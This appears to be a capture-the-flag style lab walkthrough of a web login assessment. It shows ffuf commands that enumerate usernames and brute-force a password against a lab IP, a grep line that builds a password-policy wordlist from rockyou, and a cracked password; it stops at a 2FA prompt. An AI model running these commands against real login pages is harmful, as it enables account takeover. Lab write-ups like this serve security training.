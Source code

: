 # 🚘 Skills Assessment

First i create an account:

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Then i connect to admin panel:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I created 2 accounts, felix and felix1 to look at some differences:

and i saw the following:

cookie of felix: PHPSESSID=oskfiuf01785f4f9ba735e0c3p

\---------- felix1: PHPSESSID=oskfiuf01785f4f9ba735e0c3p

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ok after a bit of messing arounf i find the path

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
ffuf -w /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -u http://94.237.63.227:35458/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=test" -fr "Unknown username"
```

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So we found user gladys

now let's create a custom wordlist according to password policy:

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
grep '[[:upper:]]' rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '{12}' > custom_wordlist.txt
```

Now we bruteforce:

```
ffuf -w custom_wordlist.txt -u http://94.237.63.227:35458/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=gladys&password=FUZZ" -fr "Unknown username"
```

<figure><img src="../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>dWinaldasD13</p></figcaption></figure>

Now with the creds, let's connect, we can see 2FA:

<figure><img src="../../../.gitbook/assets/image (10) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../../.gitbook/assets/image (11) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (1360).png" alt=""><figcaption></figcaption></figure>

